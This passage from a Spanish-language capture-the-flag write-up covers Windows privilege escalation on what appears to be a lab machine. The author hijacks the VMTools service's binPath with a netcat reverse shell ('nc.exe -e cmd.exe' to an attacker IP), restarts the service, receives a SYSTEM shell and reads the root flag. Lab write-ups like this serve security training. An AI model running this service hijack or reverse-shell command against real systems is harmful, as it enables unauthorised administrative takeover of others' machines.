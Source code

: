 ```null
*Evil-WinRM* PS C:\Windows\Temp> sc.exe config VMTools binPath="C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.6 443"
[SC] ChangeServiceConfig SUCCESS
```

Ahora si detengo el servicio y lo vuelvo a arrancar, como es una tarea privilegiada gano acceso como nt authority\system

```null
*Evil-WinRM* PS C:\Windows\Temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Windows\Temp> sc.exe start VMTools

```

Obtengo la shell

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.108.
Ncat: Connection from 10.10.11.108:59457.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Y puedo visualizar la segunda flag

```null
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
7d211b8ce29d41db0d4a7a007c305d3e
```